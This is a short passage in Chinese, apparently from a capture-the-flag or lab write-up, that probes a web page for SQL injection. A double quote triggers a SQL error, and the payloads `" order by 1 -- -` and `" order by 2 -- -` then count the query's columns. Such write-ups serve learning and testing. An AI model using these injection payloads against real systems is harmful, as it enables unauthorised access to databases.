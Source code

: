 接下来判断是否存在sql注入

输入`'`，单引号

![image-20240622172748008](./imgs/image-20240622172748008.png)

输入`"`，双引号，页面报SQL语法错误，说明是双引号闭合

![image-20240622172802070](./imgs/image-20240622172802070.png)

payload:`" order by 1 -- -`

![image-20240622172941867](./imgs/image-20240622172941867.png)

payload:`" order by 2 -- -`
